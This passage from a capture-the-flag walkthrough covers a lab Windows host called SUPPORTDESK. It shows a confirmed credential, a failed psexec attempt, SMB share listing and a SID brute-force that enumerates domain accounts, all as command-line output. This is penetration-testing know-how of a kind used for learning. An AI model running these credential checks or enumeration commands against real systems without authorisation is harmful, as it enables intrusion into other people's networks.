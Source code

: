 [*] First time use detected
[*] Creating home directory structure
[*] Initializing the database
[*] Copying default configuration file
[*] Generating SSL certificate
CME          10.10.10.149:445 SUPPORTDESK     [*] Windows 10.0 Build 17763 (name:SUPPORTDESK) (domain:SUPPORTDESK)
CME          10.10.10.149:445 SUPPORTDESK     [+] SUPPORTDESK\Hazard:stealth1agent 
[*] KTHXBYE!

root@kali:~#
{% endhighlight %}

Now CME found valid credential for domain "SUPPOETDESK".
{% highlight shell %}
Hazard:stealth1agent
{% endhighlight %}

Then, try to obtain a remote access.<br>
Psexec is not available here because we don't have any SMB share we have write permission.
{% highlight shell %}
root@kali:~# python impacket/examples/psexec.py hazard@10.10.10.149
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.149.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.

root@kali:~#
{% endhighlight %}
{% highlight shell %}
root@kali:~# smbmap -H 10.10.10.149 -u hazard -p stealth1agent
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.149...
[+] IP: 10.10.10.149:445	Name: 10.10.10.149                                      
	Disk                                                  	Permissions
	----                                                  	-----------
	ADMIN$                                            	NO ACCESS
	C$                                                	NO ACCESS
	IPC$                                              	READ ONLY

root@kali:~#
{% endhighlight %}

Next, try to enumerate via on MSRPC port 5985<br>
With a script in the package "<a href="https://github.com/SecureAuthCorp/impacket">Impacket</a>", we can bruteforce the SID of Windows host.
{% highlight shell %}
root@kali:~# python impacket/examples/lookupsid.py hazard:stealth1agent@10.10.10.149
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Brute forcing SIDs at 10.10.10.149
[*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)

root@kali:~# 
{% endhighlight %}
